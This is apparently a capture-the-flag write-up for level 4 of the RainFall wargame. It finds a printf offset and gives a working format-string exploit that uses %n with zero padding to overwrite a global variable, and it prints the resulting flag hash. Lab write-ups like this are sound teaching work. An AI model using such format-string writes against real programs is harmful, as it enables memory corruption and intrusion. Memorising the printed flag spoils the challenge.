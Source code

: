 # Level 4

Once logged in, you will see a binary `level4`.

```
$ ssh level4@localhost -p 4444
          _____       _       ______    _ _
         |  __ \     (_)     |  ____|  | | |
         | |__) |__ _ _ _ __ | |__ __ _| | |
         |  _  /  _` | | '_ \|  __/ _` | | |
         | | \ \ (_| | | | | | | | (_| | | |
         |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level4@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

Let's run this and see what this does

```
level4@RainFall:~$ ./level4
aaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaa
level4@RainFall:~$
```

Oh wow, it does the same thing as level 3... Wait, really? It can't be this easy, right? _\<Goes and decompiles manually into C.\>_

Level 4 is indeed very similar to level 3, just with a much larger number of characters to print. Let's modify our exploit from level 3 with the new information from the decompiled program.

Let's find the offset.

```
level4@RainFall:~$ echo "BBBB %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x" | ./level4
BBBB b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078 20782520
```

Changes from level 3:
- The offset is now 12 in this program
- `m` is now at `0x8049810` (as seen on `<n+54>`)
- We'll need to print `16930116` (`0x1025544`) characters before the `%n`. Instead of using Python to print these (which would be relatively slow), we'll use the zero padding (`%0`) functionality of `printf`. `%016930112x` prints the stack where the first argument to `printf` would be (if there was one), zero-padded to be a total of `16930112` characters (`16930116 - 4`).

```
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%016930112x%12$n"' | ./level4
[...]000000000000000000000000000000000000000000000000000000000000000000000000000000000000000b7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
level4@RainFall:~$
```
